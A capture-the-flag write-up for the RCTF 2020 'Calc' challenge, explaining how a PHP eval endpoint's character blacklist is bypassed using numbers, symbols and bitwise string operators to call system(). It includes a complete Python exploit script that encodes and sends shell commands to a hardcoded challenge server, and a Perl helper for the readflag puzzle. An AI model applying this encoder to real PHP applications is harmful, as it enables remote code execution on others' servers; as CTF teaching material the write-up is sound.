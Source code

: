 ```yaml
---
layout: post
title:  "Calc - a WAF bypass for arbitrary code execution in PHP using just numbers and symbols (RCTF 2020)"
date:   2020-06-10 07:55:19 -0400
tags: web ctf php
---
```


## Introduction

Here's an interesting problem I solved from the recent RCTF. We are given a web form that allows us to input values and operations to a calculator and the results will be printed. For example, the query `1+1` would give us `2`. _(I didn't take a screenshot of the normal operation when the competition server was still up, so you would have to use your own imagination)_. It's highly likely that the backend is doing some sort of `eval` to perform this arithmetic operation, so we investigate further.


## Enumeration
We see that the endpoint of the POST request containing the arithmetic operation is to `/calc.php`, so we make a GET request, which recovers the the source code below:

{% highlight php %}
<?php 
error_reporting(0); 
if(!isset($_GET['num'])){ 
    show_source(__FILE__); 
}else{ 
    $str = $_GET['num']; 
    $blacklist = ['[a-z]', '[\x7f-\xff]', '\s',"'", '"', '`', '\[', '\]','\$', '_', '\\\\','\^', ',']; 
    foreach ($blacklist as $blackitem) { 
        if (preg_match('/' . $blackitem . '/im', $str)) { 
            die("what are you want to do?"); 
        } 
    } 
    @eval('echo '.$str.';'); 
} 
?> 
{% endhighlight %}

We see that our parameter `num` is assigned to `$str` and passed into `eval`. This means we can have remote code execution if we bypass the blacklist! 

#### A small aside: How to know if it's PHP

Of course, we were given full source code recovery for this challenge (I actually didn't know about this until a teammate told me about it after I completed the challenge). From the execution of the code there are some heuristics that we can use to determine the backend for the code evaluation:

1. **Response Headers.** The headers returned in the response might indicate the backend used to evaluate your request. For example, in the challenge, the response had a `X-Powered-By` header with the value `PHP/7.4.6`.
2. **Rendering of special floats.** In PHP, evaluation `1/0` gives you `INF` and `0/0` gives you `NAN` without throwing an exception (but it does show a warning), which I believe is unique to PHP.


## Blacklist/WAF bypass - Using just numbers and symbols for ACE

Now comes the interesting part of the challenge. As a lazy hacker I went to look for existing WAF bypasses in PHP and came across [this article on bypassing WAF without numbers and letters](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/). While this may seem at first to work, the subset of symbols that we are allowed is much more restricted. For example, we do not have the `$` operator so we can't define new variables, nor can we define arrays (since `[` and `]` are blocked) or strings (since `'` and `"` are blocked). However, the article does elucidate an interesting fact: *if we can construct arbitrary strings, we are done*.

### Fun function calls via variable functions
But you might be wondering, how do we call functions using just a string? I am glad you asked. I didn't believe it at first, but you can simply call functions in PHP just by their stringified identifier. You can try this yourself by running the following code snippet.

{% highlight php %}

<?php

function foo() {
    echo "In foo()<br />\n";
}

'foo'();

{% endhighlight %}

The output that is returned is `In foo()<br />`, which means the function `foo` was called. This is due to a feature in PHP known as [**variable functions**](https://www.php.net/manual/en/functions.variable-functions.php). From the PHP docs:

>  if a variable name has parentheses appended to it, PHP will look for a function with the same name as whatever the variable evaluates to, and will attempt to execute it ... this can be used to implement callbacks, function tables, and so forth.

Note that this function calling convention, like normal PHP functions, is ___case insensitive___, but we won't be using that fact here.

However, there is a caveat:

> Variable functions won't work with language constructs such as echo, print, unset(), isset(), empty(), include, require and the like

A list of language constructs can be found [here](https://www.php.net/manual/en/reserved.keywords.php). A quick glance through the list and we find that our desired function to call (`system`) is not on the list. This means we are good to go!


### Constructing characters

What's left is actually constructing the characters. The blacklist essentially gives us numeric inputs and a limited subset of symbols.

#### Baby's First String
I quickly managed to find a way of constructing a string using the following payload:

{% highlight php %}
(0).(0) // evaluates to '00'
{% endhighlight %}


This is allowed because PHP is loosely typed and the [string concatenation operator](https://www.php.net/manual/en/language.operators.string.php) `.` coerces the type of the operands to be strings, so the result is the string `00`. Note that if the parentheses were removed, we would get `0.0` which is a float.


Speaking of floats, I decided to try something interesting. Recall that we previously tried to use special numbers in floats to identify the backend. In this case, we can concatenate two of these special floats together to form a cute string.

{% highlight php %}
(1/0).(1/0) // evaluates to "INFINF"
(0/0).(0/0) // evaluates to "NANNAN" (batman)
{% endhighlight %}


So we technically have the strings `"NAN", "INF", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9"`, but any combination of these strings won't give us shell _(yet)_, we have to dig deeper!

#### Looking for more primitives
I got stuck here for quite a bit and decided to look for all possible operators in PHP. I did browse around and managed to find that `->`, `=>`, `{`, `}` and `::` are legal operators through extensive web searching (thanks Google!). While writing this article I found a more [extensive list of tokens that are used in PHP](https://www.php.net/manual/en/tokens.php) which would have been a much better resource.

I toyed around with the idea of using `->` (which is the `T_OBJECT_SEPARATOR` used to assign and retrieve values from an object), `=>` (which is the `T_DOUBLE_ARROW` used to assign values in an array), and `::` (which is a [scope resolution operator](https://www.php.net/manual/en/language.oop5.paamayim-nekudotayim.php) which has a pretty interesting history behind its name) before realizing they won't work.

Finally, we are left with `{` and `}`. These symbols are actually pretty interesting - a quick tl;dr of what happened was that they were introduced to replace `[` and `]` as array accesses, but later realized it was a bad idea, so they deprecated it and tried to revert the change but then realized that was a bad idea too. Now, [it can be used interchangeably](https://www.php.net/manual/en/language.types.array.php) and [works for string array index access as well](https://www.php.net/manual/en/language.types.string.php), though it does warn that it would be deprecated in newer versions of PHP. That aside, we now have the following string index access primitive:

{% highlight php %}
(1/0).(1/0) // evaluates to "INFINF"
((1/0).(1/0)){0} // evaluates to "I"
{% endhighlight %}

So we now have the strings `"N", "A", "I", "F", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9"`. We can also add additional characters like `"."` from coercing floats to strings and `"-"` by coercing negative numbers, but we still don't have the right letters to construct calls to functions that we want, and we still can't construct arbitrary characters. If only we had some way of changing these characters...

#### Quick Math with Strings

I continued to play around to see how to change the characters (either by incrementing them or decrementing them like via `++`) but without variable declarations this was impossible. I later came across a [Web CTF resource](https://github.com/w181496/Web-CTF-Cheatsheet) that hinted to look at the `~` operator, which is the bitwise not operator. I tried it and lo and behold:

{% highlight php %}
(((0/0).(1)){0}).(~((1).(1/0))) // evaluates to Nζ��
{% endhighlight %}

Finally we are getting somewhere! We see that we have constructed some other character that is not in our original list of characters. It seems that [bitwise operations](https://www.php.net/manual/en/language.operators.bitwise.php) like `|`, `&`, `^` and `~` are also defined for strings in PHP. Note that we can't use `^` since it's banned, and `>>` and `<<` coerces the type of the operands to be integers. We can now construct printable ASCII, as below.

{% highlight php %}
(((1/0).(1/0)){0})|((1).(1)){0} // evaluates to 'y'
{% endhighlight %}

With these bitwise operators, we can easily construct any 7-bit ASCII character if we get the equivalent representation of `chr(1)`, `chr(2)`, `chr(4)`, `chr(8)`, `chr(16)`, `chr(32)` and `chr(64)`. We do some quick math (aka figuring out how to extract each of these bits from the characters we already have) and we have the following mapping for each of these bits.

{% highlight python %}
mapping = {
    64: "(((1/0).(1)){0})&(((1/0).(1)){2})",
    32: "((0).(0){0})&(((1.5).(0)){1})",
    16: "(~(((1.5).(0)){1}&(((0).(0)){0})))&(0).(0){0}",
    8: "(8).(8){0}&((1/0).(0)){0}",
    4: "(4).(4){0}&((1/0).(0)){2}",
    2: "(2).(2){0}&((1/0).(0)){1}",
    1: "(1).(1){0}&((0/0).(0)){1}"
}
{% endhighlight %}

For example, the ASCII letter `a` which corresponds to the ordinal `97` or `0b1100001` can be constructed as follows:

{% highlight php %}
(1).(1){0}&((0/0).(0)){1} | ((0).(0){0})&(((1.5).(0)){1}) | (((1/0).(1)){0})&(((1/0).(1)){2})  // evaluates to chr(64 | 32 | 1) == 'a'
{% endhighlight %}

Now we can form arbitrary strings from arbitrary characters via the `.` string concatenation operator. Combining with the variable functions trick as above, we can call the equivalent of `'system'('uname -a')` to see if we can run arbitrary shell commands. We send it to the server we see that we have achieved arbitrary code execution!

![Shell get! Output of uname -a](/images/rctf2020-shell.png "Shell get!")

Enumerating the environment, we find a `/readflag` binary. We execute it, and we realize that this isn't the end!

![Readflag sadness](/images/rctf2020-puzzle.png "Readflag sadness")

### Breaking The readflag Puzzle

I didn't really like the next part of the challenge so much, as you will see why. Using the same script, I exfiltrated the readflag binary out and analyzed it. Long story short, it throws you a math challenge that you have to solve in 1ms. This means that you are supposed to get shell on the system to run a script that solves the problem, but a reverse shell wasn't possible due to network isolation. 

I looked up this online (since CTFs in the east tend to be inspired by previously released challenges) and [found the exact same readflag binary and with solve scripts in various languages described](https://www.secpulse.com/archives/105333.html). TL;DR my solution was to write one of the solve scripts to `/tmp` and execute it to get the flag. 

In writing the script to a file, I had to break it up into short chunks per line since the encoding for each byte was fairly large. It is worth noting that other teams found interesting ways of bypassing the URL parameter length limit (which I found to be around 8000-ish bytes), and the [ROIS team's writeup](https://blog.rois.io/en/2020/rctf-2020-official-writeup-2/#Calc) details interesting alternative solutions to this problem.

Balsn also has a bunch of tricks that they use to solve the `readflag` binary, as noted [here](https://balsn.tw/ctf_writeup/20190427-*ctf/#solve_readflag-(not-a-challenge)).

## Final Script

The final solve scripts are provided below.

### solve.py
{% highlight python %}
#!/usr/bin/env python

import requests
import sys
import pipes

url='http://124.156.140.90:8081/calc.php?'

mapping = {
    64: "(((1/0).(1)){0})&(((1/0).(1)){2})",
    48: '(0).(0){0}',
    32: "((0).(0){0})&(((1.5).(0)){1})",
    16: "(~(((1.5).(0)){1}&(((0).(0)){0})))&(0).(0){0}",
    8: "(8).(8){0}&((1/0).(0)){0}",
    4: "(4).(4){0}&((1/0).(0)){2}",
    2: "(2).(2){0}&((1/0).(0)){1}",
    1: "(1).(1){0}&((0/0).(0)){1}"
}

idxs = [64, 48, 32, 16, 8, 4, 2, 1]

def construct_char(c):
    val = ord(c)

    payload = "("
    for idx in idxs:
        if (val >= idx):
            val -= idx
            payload += mapping[idx]
            if (val != 0):
                payload +='|'

    assert val == 0
    payload += ")"

    return payload

def construct_string(s):
    payload = "("
    for i, c in enumerate(s):
        payload += construct_char(c)
        if (i != len(s) - 1):
            payload += "."

    payload += ")"
    return payload

def call_fn(f, a):
    fn_s = construct_string(f)
    fn_a = construct_string(a)
    return fn_s + "(" + fn_a + ")"

### Actually solve for flag
# write the evil file to solves the puzzle
f = open('solve.perl', 'rt')
solver = f.read().split('\n')
f.close()

for s in solver:
    d = call_fn("system", """echo %s>>/tmp/b""" % pipes.quote(s))
    params = {'num': d }
    r = requests.get(url, params=params)
    print r.text

d = call_fn("system", """cat /tmp/b""")
params = {'num': d }
r = requests.get(url, params=params)
print r.text

d = call_fn("system", """perl /tmp/b""")
params = {'num': d }
r = requests.get(url, params=params)
print r.text

d = call_fn("system", "rm /tmp/b")
params = {'num': d }
r = requests.get(url, params=params)

### Uncomment to run arbitrary commands
#FUNCTION = "system"
#ARG = sys.argv[1]

#d = call_fn(FUNCTION, ARG)
#print len(d)
#print d

#params = {'num': d }
#r = requests.get(url, params=params)
#print r.text

{% endhighlight %}

### solve.perl
{% highlight perl %}
use 
IPC::Open3;
my $pid = 
open3( 
\*CHLD_IN, 
\*CHLD_OUT, 
\*CHLD_ERR, 
"/readflag"  
);
my $r;
$r=
<CHLD_OUT>;
print "$r";
$r=
<CHLD_OUT>;
print "$r";
$r=eval 
"$r";
print 
"$r\\n";
print 
CHLD_IN 
"$r\\n";
$r=
<CHLD_OUT>;
print "$r";
$r=
<CHLD_OUT>;
print "$r";
{% endhighlight %}


Relevant Resources:

- [Bypassing WAF for PHP webshell without letters or numbers](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)
- [w181496's Web CTF Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet)
- [ROIS's Writeup for Calc at RCTF2020 which explores alternative ways of loading the shell command to bypass the URL param size limit](https://blog.rois.io/en/2020/rctf-2020-official-writeup-2/#Calc)
- [EasyCalc at RoarCTF-2019, the precursor to this challenge](https://github.com/berTrAM888/RoarCTF-Writeup-some-Source-Code/tree/master/Web/easy_calc/writeup)
- [PHP Query String Parser Bypass](https://www.secjuice.com/abusing-php-query-string-parser-bypass-ids-ips-waf/)

Hack on!